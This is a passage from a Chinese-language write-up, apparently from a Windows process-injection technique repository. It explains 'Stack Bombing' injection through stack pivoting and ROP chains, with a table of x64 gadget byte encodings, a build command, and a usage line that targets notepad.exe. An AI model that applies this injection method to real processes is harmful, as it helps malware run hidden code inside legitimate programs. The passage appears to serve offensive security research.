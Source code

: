 #### 2. Stack Pivoting（栈切换）

**目标**：让线程从当前栈切换到我们构造的恶意栈。

**步骤**：
1. 保存线程当前栈指针（RSP）
2. 在栈的低地址构造 ROP chain（RSP - 0x2000）
3. 覆盖当前栈的返回地址为 `pop rsp; ret` gadget
4. 覆盖 RSP+8 为新栈地址
5. 当线程从当前函数返回时：
   ```asm
   ret                  ; 跳转到 pivot gadget
   → pop rsp            ; 从 [RSP+8] 弹出新栈地址到 RSP
   → ret                ; 使用新栈，开始执行 ROP chain
   ```

#### 3. ROP Chain 构建

**Gadgets 来源**：ntdll.dll, kernel32.dll 等系统 DLL 的 .text 节。

**常用 Gadgets**：
| Gadget | 字节码 | 用途 |
|--------|-------|------|
| `pop rsp; ret` | `5C C3` | Stack pivoting |
| `pop rcx; ret` | `59 C3` | 设置 RCX 参数 |
| `pop rdx; ret` | `5A C3` | 设置 RDX 参数 |
| `pop r8; ret` | `41 58 C3` | 设置 R8 参数 |
| `add rsp, 0x28; ret` | `48 83 C4 28 C3` | 跳过 shadow space |
| `xor rax, rax; ret` | `48 33 C0 C3` | 清零 RAX |

## 测试环境

- **操作系统**: Windows 10 (MSYS_NT-10.0-26100 x86_64)
- **编译器**: GCC (MinGW64)
- **架构**: 64位
- **日期**: 2025-10-08

## 测试过程

### 测试 1: 基本 Stack Bombing 注入

**步骤 1**: 构建项目
```bash
cd techniques/31-stack-bombing
./build.sh
```

**输出**:
```
========================================
Stack Bombing Injection - Build Script
========================================

[*] Compiling Stack Bombing injection...

[+] Build successful!
[+] Output: bin/stack_bombing.exe

Usage:
  ./bin/stack_bombing.exe notepad.exe
```
